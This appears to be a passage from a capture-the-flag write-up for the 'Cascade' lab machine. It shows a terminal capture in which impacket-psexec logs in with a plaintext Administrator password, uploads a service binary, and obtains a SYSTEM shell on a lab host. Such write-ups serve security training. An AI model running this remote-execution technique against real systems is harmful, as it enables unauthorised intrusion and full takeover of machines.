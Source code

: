 ```sql
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ impacket-psexec 'cascade.local/Administrator:baCT3r1aN00dles@10.10.10.182'     
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file DcoHEJsJ.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service NewD on 10.10.10.182.....
[*] Starting service NewD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```